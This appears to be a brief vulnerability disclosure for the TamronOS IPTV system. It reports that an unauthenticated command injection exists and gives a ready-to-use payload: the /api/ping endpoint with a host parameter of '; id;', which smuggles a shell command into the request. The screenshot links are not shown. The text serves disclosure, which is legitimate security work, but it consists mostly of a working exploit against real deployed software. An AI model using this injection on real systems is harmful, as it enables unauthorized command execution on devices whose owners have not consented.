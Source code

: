 The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/

1.Just log in if you don't need it
![WPS图片(1)](https://github.com/d4n-sec/cve/assets/129777519/cf6e3157-7859-4163-ac4b-56383b2c660f)

2.Access path /api/ping after url? count=5&host=; id;

![WPS图片(2)](https://github.com/d4n-sec/cve/assets/129777519/e55f3d05-9e17-4592-a2d4-a5ac0ec64c66)
